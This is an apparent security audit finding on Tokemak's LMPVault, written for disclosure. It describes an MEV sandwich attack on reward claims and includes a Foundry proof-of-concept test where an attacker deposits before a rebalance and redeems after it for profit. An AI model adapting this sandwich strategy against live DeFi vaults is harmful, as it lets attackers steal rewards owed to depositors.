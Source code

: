 Formal Magenta Okapi

high

# Receiving the rewarder in LMPVault create opportunity for MEV Bots (sandwich attack)
## Summary

Receiving the rewarder in LMPVault create opportunity for MEV Bots (sandwich attack)

## Vulnerability Detail
EVM bot will detect `rebalance()`, `flashRebalance()` and `withdraw()` transactions in the mempool. Because all of them will transfer the reward from the DestinationVault (actually its mainRewarder contract) to the LMPVault, and this will update the value of `totalIdle`.
This update will create an opportunity to sandwich both the SOLVER and the users.

Check the POC.

## Impact
- Attaker could steal the reward from LMPVault by the sandwich attack.

## Code Snippet
Please copy the following POC in `LMPVault-Withdraw.t.sol`
```solidity
    function test_POC_04_Sandwich_Attack() public {
        address user_01 = vm.addr(101);
        address user_02 = vm.addr(102);
        address attacker = vm.addr(104);
        vm.label(user_01, "User_01");
        vm.label(user_02, "User_02");
        vm.label(attacker, "Attacker");
        _accessController.grantRole(Roles.SOLVER_ROLE, address(this));

        //User_01 `deposit()`
        vm.startPrank(user_01);
        _asset.mint(user_01, 500);
        _asset.approve(address(_lmpVault), 500);
        _lmpVault.deposit(500, user_01);
        vm.stopPrank();

        //User_02 `deposit()`
        vm.startPrank(user_02);
        _asset.mint(user_02, 500);
        _asset.approve(address(_lmpVault), 500);
        _lmpVault.deposit(500, user_02);
        vm.stopPrank();

        // Queue up some Destination Vault rewards
        _accessController.grantRole(Roles.DV_REWARD_MANAGER_ROLE, address(this));
        _accessController.grantRole(Roles.LIQUIDATOR_ROLE, address(this));
        _asset.mint(address(this), 2000);
        _asset.approve(_destVaultOne.rewarder(), 2000);
        IMainRewarder(_destVaultOne.rewarder()).queueNewRewards(2000);

        // At time of writing LMPVault always returned true for verifyRebalance
        // Rebalance 500 baseAsset for 250 underlyerOne+destVaultOne
        uint256 assetBalBefore = _asset.balanceOf(address(this));
        _underlyerOne.mint(address(this), 500);
        _underlyerOne.approve(address(_lmpVault), 500);
        _lmpVault.rebalance(
            address(_destVaultOne),
            address(_underlyerOne), // tokenIn
            250,
            address(0), // destinationOut, none when sending out baseAsset
            address(_asset), // baseAsset, tokenOut
            500
        );
        uint256 assetBalAfter = _asset.balanceOf(address(this));

        // LMP Vault is correctly tracking 500 remaining in idle, 500 out as debt
        uint256 totalIdleAfterFirstRebalance = _lmpVault.totalIdle();
        uint256 totalDebtAfterFirstRebalance = _lmpVault.totalDebt();
        assertEq(totalIdleAfterFirstRebalance, 500, "totalIdleAfterFirstRebalance");
        assertEq(totalDebtAfterFirstRebalance, 500, "totalDebtAfterFirstRebalance");
        // The destination vault has the 250 underlying
        assertEq(_underlyerOne.balanceOf(address(_destVaultOne)), 250);
        // The lmp vault has the 250 of the destination
        assertEq(_destVaultOne.balanceOf(address(_lmpVault)), 250);
        // Ensure the solver got their funds
        assertEq(assetBalAfter - assetBalBefore, 500, "solverAssetBal");

        // Rebalance some of the baseAsset back
        // We want 137 of the base asset back from the destination vault
        // For 125 of the destination (bad deal but eh)
        uint256 balanceOfUnderlyerBefore = _underlyerOne.balanceOf(address(this));

        // Roll the block so that the rewards we queued earlier will become available
        vm.roll(block.number + 100);

        //Attacker start the Sandwich_Attack by front-running the `rebalance()`/`withdraw()`
        vm.startPrank(attacker);
        _asset.mint(attacker, 500);
        _asset.approve(address(_lmpVault), 500);
        _lmpVault.deposit(500, attacker);
        vm.stopPrank();

        // `rebalance()`
        _asset.mint(address(this), 137);
        _asset.approve(address(_lmpVault), 137);
        _lmpVault.rebalance(
            address(0), // none when sending in base asset
            address(_asset), // tokenIn
            137,
            address(_destVaultOne), // destinationOut
            address(_underlyerOne), // tokenOut
            125
        );

        uint256 balanceOfUnderlyerAfter = _underlyerOne.balanceOf(address(this));
        uint256 totalIdleAfterSecondRebalance = _lmpVault.totalIdle();
        uint256 totalDebtAfterSecondRebalance = _lmpVault.totalDebt();

        // Without the DV rewards, we should be at 637. Since we'll claim those rewards
        // as part of the rebalance, they'll get factored into idle
        assertEq(totalIdleAfterSecondRebalance, 837 + 500 , "totalIdleAfterSecondRebalance");//(500 + 500 (Attacker balance) + 137 + 200 (reward) = 837)
        assertEq(totalDebtAfterSecondRebalance, 250, "totalDebtAfterSecondRebalance");//(250 - 125 = 125 ==convert to ETH==> (125 * 2 = 250) ) bec _asset - 1:1 ETH and _underlyerOne - 1:2 ETH 
        assertEq(balanceOfUnderlyerAfter - balanceOfUnderlyerBefore, 125);

        //Attacker back-running by invoking `redeem()`
        vm.startPrank(attacker);
         _lmpVault.redeem(_lmpVault.balanceOf(attacker), attacker, attacker);
        vm.stopPrank();
        assertEq(_asset.balanceOf(attacker), 529);//Attacker profit is:  529 - 500 = 29
        //console.log("attacker Balance",_asset.balanceOf(attacker) );//Attacker Balance Is: 529

    }
```
https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L485-L487

## Tool used

Manual Review - Foundry

## Recommendation

Track the reward with an independent state variable